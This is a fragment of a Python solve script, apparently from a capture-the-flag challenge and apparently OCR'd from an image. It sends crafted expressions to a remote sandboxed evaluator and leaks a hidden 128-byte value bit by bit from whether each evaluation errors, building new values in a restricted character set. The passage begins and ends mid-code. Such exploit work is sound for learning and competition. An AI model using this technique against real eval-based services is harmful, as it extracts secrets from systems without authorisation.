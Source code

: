 ```py
            p.close()
        else:
            break
    else:
        p.close()


while not solved:
    # We know how to get 0 and 1
    mp = {
        0: '[_>_][_>_]',
        1: '[[_]>[]][_>_]',   
    }
    
    p.recvuntil(b"cmd: ")

    # Define data we have recieved
    arr = [-1]*128
    notfound = set(range(2,128))

    # Start BFS at 0 and 1
    queue = set([0,1])

    while len(queue) > 0:
        idx = queue.pop()
        val = 0
        for j in range(8):
            # Send payload for leaking jth bit at idx
            p.sendline(genPayload(idx, j, op).encode())
            response = p.recvuntil(b"cmd: ")
            # Calculate the value based on if the eval errors or not
            if op == "&" and b"ans" in response:
                val |= (1 << (7-j))
            elif op == "|" and b"ans" not in response:
                val |= (1 << (7-j))
            elif op == "^" and b"ans" not in response:
                val |= (1 << (7-j))
        
        # Set byte value at idx
        arr[idx] = val

        # Calculate all the new numbers we have access to

        # New values just using bitshift
        new = []
        for j in range(8):
            mp[val>>(j)] = "["+getIdx(idx) + ">>[[_]>[]][_>_]"*j+"][_>_]"
            new.append(val>>j)
            if (val>>j) not in queue and (val>>j) in notfound:
                queue.add(val>>j)
                notfound.remove(val>>j)

        # New values by combing 2 known values with the operator
        newval = dict()
        for v1 in new:
            for v2 in mp:
                v = eval(f"v1 {op} v2")
                if v not in queue and v in notfound:
                    queue.add(v)
                    notfound.remove(v)
                    newval[v] = "["+mp[v1] + op + mp[v2]+"][_>_]"

        # Slower but more comprehensive computation in case we run out of values
```